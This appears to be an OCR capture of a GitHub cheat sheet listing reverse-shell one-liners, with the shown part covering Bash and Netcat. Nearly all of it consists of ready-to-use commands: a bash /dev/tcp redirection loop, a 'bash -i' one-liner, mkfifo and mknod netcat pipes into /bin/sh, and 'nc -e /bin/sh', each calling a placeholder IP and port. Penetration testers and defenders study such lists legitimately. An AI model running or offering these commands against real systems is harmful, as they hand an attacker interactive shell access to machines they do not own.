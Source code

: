 # **A list of reverse shells for Linux and Windows**

## Bash reverse shells

exec 100<>/dev/tcp/**IP**/**Port** 
cat <&100 | while read line; do $line 2>&100 >&100; done 
Or:
while read line 0<&100; do $line 2>&100 >&100; done

A bash reverse shell one-liner:
bash -i >& /dev/tcp/**IP**/**Port** 0>&1 

## Netcat reverse shell
Without GAPING_SECURITY_HOLE (using mkfifo):

rm -f /tmp/a; mkfifo /tmp/a; nc **IP Port** 0</tmp/a | /bin/sh >/tmp/a 2>&1; rm /tmp/a 

Or using mknod:

rm -f /tmp/a; mknod /tmp/a p && nc **IP Port** 0</tmp/a | /bin/bash 1>/tmp/a 

With GAPING_SECURITY_HOLE:

nc **IP Port** -e /bin/sh 
